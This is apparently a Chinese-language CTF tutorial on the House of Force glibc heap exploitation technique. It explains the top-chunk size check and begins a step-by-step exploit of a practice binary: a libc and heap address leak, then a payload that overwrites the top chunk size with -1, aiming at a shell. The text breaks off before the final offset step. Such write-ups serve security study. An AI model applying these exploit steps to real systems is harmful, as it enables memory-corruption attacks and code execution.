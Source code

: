 ## 介绍House Of Force

House Of Force属于House Of XXX系列，House Of XXX指的是2004年一篇名为《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》的文章中提出的一系列针对glibc漏洞的利用方法。
但是由于年代久远《The Malloc Maleficarum》中提出的大多数利用在今天都不能奏效，我们现在所指的House Of XXX利用相比2004年文章中写的已有较大的不同。但是《The Malloc Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文：
https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

## House Of Force原理

House Of Force是一种堆溢出的利用方法，当然能够通过House Of Force进行利用的可能不只是堆溢出漏洞。如果一个堆(heap based)漏洞想要通过House Of Force方法进行利用，需要以下条件：
	
	1.用户能够以溢出等方式控制到top chunk的size域
	2.用户能够自由的控制堆分配尺寸的大小

House Of Force产生的原因在于glibc对top chunk的处理，进行堆分配时会从top chunk中分割出相应的大小作为堆块的空间，因此top chunk的位置会发生上下浮动以适应堆内存分配和释放。

House Of Force的利用思想可以概括为一句话：

    当使用top chunk分配堆块的size值是由用户控制的任意值时会发生什么？
	答案是，可以使得top chunk移动到我们想要达到的任何位置，这就相当于一次任意地址写。
	比如可以移动到free@got将free@got改写为system

然而在glibc中，会对用户请求的大小和top chunk现有的size进行验证

	// 获取当前的top chunk，并计算其对应的大小
	victim = av->top;
	size   = chunksize(victim);
	// 如果在分割之后，其大小仍然满足chunk的最小大小，那么就可以直接进行分割。
	if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
	{
	    remainder_size = size - nb;
	    remainder      = chunk_at_offset(victim, nb);
	    av->top        = remainder;
	    set_head(victim, nb | PREV_INUSE |
	            (av != &main_arena ? NON_MAIN_ARENA : 0));
	    set_head(remainder, remainder_size | PREV_INUSE);
	 
	    check_malloced_chunk(av, victim, nb);
	    void *p = chunk2mem(victim);
	    alloc_perturb(p, bytes);
	    return p;
	}


然而，如果可以篡改size的大小为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size域的漏洞
	
	(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)

一般的做法是把top chunk的size改为-1，因为在进行比较时会把size转换成无符号数(如上)，因此-1会解释成为一个大数，就可以使得所有64位值都能通过验证。

	remainder      = chunk_at_offset(victim, nb);
	av->top        = remainder;
	 
	/* Treat space at ptr + offset as a chunk */
	##define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))

之后这里会把top指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意址(write-anything-anywhere)。

## 一个简单的列子-DBAPP

程序功能在上一个double-free中已经说过了。

对于House Of Force利用的两个条件

	1.用户能够以溢出等方式控制到top chunk的size域
	2.用户能够自由的控制堆分配尺寸的大小

都符合，下面我们一步一步get shell.

1.泄露libc基址及计算关键符号地址

	Add(0x100,'/bin/sh\x00') #0
	Add(0x100,'AAAA') #1
	Add(0x100,'AAAA') #2

	Delete(1)

	Show()

	io.recvuntil('1 : ')
	data = u64(io.recv(6).ljust(8,'\x00'))
	success('data:'+hex(data))

	libc_base = data - malloc_hook_libc - (0x7f43a522ab78 - 0x7f43a522ab10) 

	system_addr = system_libc + libc_base
	success('system_addr:'+hex(system_addr))

2.泄露堆地址并计算top_chunk地址

	Add(0x20,'AAAA') #4
	Add(0x20,'AAAA') #5
	Delete(4)
	Delete(5)

	Show()

	io.recvuntil('5 : ')
	data = u64(io.recv(3).ljust(8,'\x00'))
	success('data:'+hex(data))
	top_chunk = data + (0x6b83b0 - 0x6b8350)

3.改写top_chunk的size为-1(0xffffffffffffffff)

	Add(0x100,'AAAA') #8
	payload = 'a'*0x100
	payload += p64(0) + p64(0xffffffffffffffff)

	Change(8,len(payload) + 1,payload)

改写前：

![](../Images/Heaps/2.1.png)

改写后：

![](../Images/Heaps/2.2.png)

(两次堆地址不一致是因为我运行了两次脚本，由于地址随机化，堆地址发生了变化）

注意此时的top chunk位置，当我们进行下一次分配的时候就会更改top chunk的位置到我们想要的地方，我们将让top chunk的位置移动到free_hook的位置

先计算一下当前top chunk位置与free@got位置的偏移





